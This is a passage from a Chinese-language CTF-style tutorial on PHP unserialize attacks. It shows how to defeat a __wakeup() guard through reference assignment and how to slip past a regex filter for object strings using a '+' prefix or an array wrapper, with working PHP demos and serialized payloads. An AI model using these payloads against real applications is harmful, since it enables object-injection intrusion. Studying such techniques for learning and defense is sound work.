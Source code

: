 可以看到如果我们想触发echo必须首先满足:

```plain
if(!isset($this->wakeup)||!$this->wakeup)
```

也就是说要么不给wakeup赋值，让它接受不到$this->wakeup，要么控制wakeup为false，但我们注意到KeyPort::__wakeup()，这里使$this->wakeup=True;，我们知道在用unserialize()反序列化字符串时，会先触发__wakeup()，然后再进行反序列化，所以相当于我们刚进行反序列化$this->wakeup就等于True了，这就没办法达到我们控制wake为false的想法了

因此这里的难点其实就是这个wakeup()绕过，我们可以使用上面提到过的引用赋值的方法以此将wakeup和key的值进行引用，让key的值改变的时候也改变wakeup的值即可

```plain
<?php

class KeyPort{
    public $key;

    public function __destruct()
    {
    }

}

$keyport = new KeyPort();
$keyport->key=&$keyport->wakeup;
echo serialize($keyport); 
#O:7:"KeyPort":2:{s:3:"key";N;s:6:"wakeup";R:2;}
```

![](https://cdn.nlark.com/yuque/0/2024/jpeg/49936693/1732970862034-fbe07309-fbc5-4853-9339-2eeeb19f970f.jpeg)

### 绕过正则
如preg_match('/^O:\d+/')匹配序列化字符串是否是对象字符串开头。

绕过方法

+ 利用加号绕过（注意在url里传参时+要编码为%2B）。
+ 利用数组对象绕过，如 serialize(array($a)); a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)。

```php
<?php
class test{
    public $a;
    public function __construct(){
        $this->a = 'abc';
    }
    public function  __destruct(){
        echo $this->a.PHP_EOL;
    }
}
 
function match($data){
    if (preg_match('/^O:\d+/',$data)){
        die('nonono!');
    }else{
        return $data;
    }
}
$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';
// +号绕过
$b = str_replace('O:4','O:+4', $a);
unserialize(match($b));
// 将对象放入数组绕过 serialize(array($a));
unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');
```
